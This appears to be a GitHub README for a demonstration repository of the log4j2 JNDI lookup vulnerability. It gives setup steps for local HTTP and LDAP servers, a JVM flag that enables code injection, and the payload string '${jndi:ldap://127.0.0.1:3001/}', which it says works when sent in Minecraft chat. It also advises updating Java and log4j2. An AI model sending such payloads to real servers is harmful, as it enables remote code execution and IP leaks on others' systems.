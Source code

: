 # log4j2-exploits
This fundamental vulnerability was reported by [CVE-2018-3149](https://nvd.nist.gov/vuln/detail/CVE-2018-3149) and patched by [this article. (8u121 Release Notes)](https://www.oracle.com/java/technologies/javase/8u121-relnotes.html)


However, the logging library for java called log4j2 had [JNDILookup](https://github.com/apache/logging-log4j2/blob/20f9a97dbe5928c3b5077bcdd2a22ac92e941655/log4j-core/src/main/java/org/apache/logging/log4j/core/lookup/JndiLookup.java), which allowed access to protocols such as LDAP, which allowed code injection in older java versions.

Patched versions of java can prevent code injection, but `JNDILookup` makes request to ldap server, which can lead to IP leaks.

The solution is to update **Java** and **log4j2** versions, ~~or to prevent the logger from writing text starting with `${jndi:` (Not Recommended)~~.

## Running
0. Install requirements
```
cd http-server && npm install
cd ldap-server && npm install
```
1. run `http-server` and `ldap-server` both
```
cd http-server && node index.js
cd ldap-server && node index.js
```
2. Start jvm with parameters
```bash
# com.sun.jndi.ldap.object.trustURLCodebase=true required for code injection, otherwise it will only request to ldap server.
java -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -jar [yourJar].jar
```
3. Send `${jndi:ldap://127.0.0.1:3001/}` to any payloads.
(In minecraft, just chatting this will work if exploits are working.)

## References
- https://github.com/apache/logging-log4j2/pull/608
- https://www.lunasec.io/docs/blog/log4j-zero-day/

## License
CC0